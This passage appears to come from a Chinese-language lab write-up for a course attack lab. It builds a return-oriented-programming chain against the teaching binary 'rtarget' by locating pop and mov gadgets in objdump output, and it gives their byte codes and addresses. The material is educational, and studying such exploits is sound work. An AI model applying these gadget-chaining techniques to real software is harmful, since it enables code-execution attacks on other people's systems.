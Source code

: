 我不认为在rtarget中能够找到这些包含特定常数的值。

我们可以将这些常数依次放置在栈上，然后通过gadget将其放到寄存器中。

假如在栈上0x59b997fa和0x4017ec按顺序排布，我们可以尝试以下指令。

```
popq %rax         #将栈顶的值弹出到%rax寄存器中
movq %rax, %rdi   #将%rax寄存器的值复制到%rdi寄存器中
retq              #将栈顶值作为返回地址，跳转到touch2函数
```

按照上表译码为16进制字节码为：
```
58 
48 89 c7
c3
```

使用objdump工具获得rtarget的汇编代码，按照提示，我们重点关注start_farm和mid_farm之间的代码。在这些代码中，重点关注带有c3指令的代码。

```bash
objdump -d rtarget > rtarget.d
```

在getval_280中，我们发现了一组很有意思的字节
```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret   
```

其中的58 90 c3正好是popq %rax; nop; retq的16进制字节码。

我们可以将这段字节码作为gadget，将栈上的值弹出到%rax寄存器中。

然后我们需要找到一个gadget，将%rax寄存器的值复制到%rdi寄存器中。

可以在getval_273中找到
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```

其中的48 89 c7正好是movq %rax, %rdi的16进制字节码。

后面还刚好跟了一个c3。这正是我们需要的gadget。

最后我们要执行的指令为：
```
#gadget1, 起始地址0x4019cc
pop %rax 
nop
retq

#gadget2, 起始地址0x4019a2
movq %rax, %rdi
retq
```
